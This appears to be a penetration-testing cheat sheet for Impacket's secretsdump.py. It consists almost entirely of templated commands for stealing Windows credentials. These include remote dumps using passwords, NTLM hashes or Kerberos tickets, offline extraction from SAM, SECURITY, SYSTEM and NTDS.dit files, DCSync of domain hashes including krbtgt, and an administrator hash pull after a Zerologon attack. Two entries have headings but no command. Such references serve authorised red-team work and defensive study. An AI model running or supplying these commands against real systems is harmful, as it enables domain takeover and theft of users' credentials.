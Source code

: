 # secretsdump (imp)

% impacket-secrets, windows, smb, 445

## auth - account
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py '<domain_FQDN>/<user>:<password>'@<target_name>
```

## auth - hash
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -hashes <lm_hash>:<nt_hash> '<domain_FQDN>/<user>@<target_name>'
```

## auth - kerberos
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
KRB5CCNAME=<ccache> secretsdump.py -k -no-pass -dc-ip <dc_ip> -no-pass -k <target_name>
```

## SAM - online
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 

## SAM - offline
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -system <SYSTEM_FILE|system.save> -sam <SAM_FILE|sam.save> LOCAL
```

## LSA - online
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 

## LSA - offline
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -system <SYSTEM_FILE|system.save> -security <SECURITY_FILE|security.save>' LOCAL
```

## NTDS - online (NTLM + keys)
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc -user-status -outputfile <ntlm-extract-file> '<domain>/<user>:<password>'@<dc_fqdn>
```

## NTDS - online (only NTLM)
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-ntlm -user-status -outputfile <ntlm-extract-file> '<domain>/<user>:<password>'@<dc_fqdn>
```

## NTDS - online account (only NTLM)
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-user <domain>/<name|krbtgt> '<domain>/<user>:<password>'@<dc_fqdn>
```



## NTDS - offline
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -ntds <NTDS_FILE|ntds_file.dit> -system <SYSTEM_FILE|system.save> LOCAL -outputfile <ntlm-extract-file>
```


## anonymous get administrator 
zerologon
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## DCSYNC - online (ptt)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -k -no-pass -just-dc -outputfile <file-prefix>  -dc-ip <dc_ip> '<domain>/<user>'@<dc_fqdn>
```